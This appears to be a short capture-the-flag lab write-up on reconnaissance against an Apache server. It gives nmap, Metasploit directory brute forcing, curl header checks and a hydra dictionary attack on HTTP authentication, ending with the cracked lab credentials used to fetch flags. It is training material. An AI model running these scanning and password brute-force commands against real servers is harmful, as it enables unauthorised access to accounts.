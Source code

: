 # Apache Recon : Dictionary

>  **target=192.167.168.3**

1. What is the version of the running web server?
      \> nmap -p 80 -sV $target
2. What page is hosted on the running web server?
      \> Apache default page : It works !
3. Perform bruteforce on web server directories and list the names of directories found. Use brute_dirs metasploit module.
      \> dir, poc, 
4. Flags are kept in both the directories. Try to retrieve the flag from “dir” directory using curl.
      \> Nope
5. The “dir” directory is using some kind of protection. What protection is that?
      \> curl -I $target/dir
      \> ![file:///tmp/tmpocUZ6f/1.png](assets/1.png)
6. Now try to retrieve the flag from “poc” directory using curl.
      \> Same 
7. The “poc” directory is also using some kind of protection. What protection is that?
      \> ![file:///tmp/tmpocUZ6f/2.png](assets/2.png)
8. The web server belongs to users “alice” and “bob”. And, they have used /usr/share/metasploit-framework/data/wordlists/unix_passwords.txt dictionary to set the password.  Find the credentials required to access “dir” directory.
      \> hydra -L user.txt -P <path> -s 80 -f $target
      \> ![file:///tmp/tmpocUZ6f/3.png](assets/3.png)
9. Fetch the flag from “dir” directory.
      \> curl -u bob:qwerty $target/dir/

10. Again, the web server belongs to users “alice” and “bob”. And, they have used /usr/share/metasploit-framework/data/wordlists/unix_passwords.txt dictionary to set the password.  Find the credentials required to access “poc” directory.
       \> ![file:///tmp/tmpocUZ6f/4.png](assets/4.png)
11. Fetch the flag from “poc” directory.
       \> curl -u alice:admin $target/poc/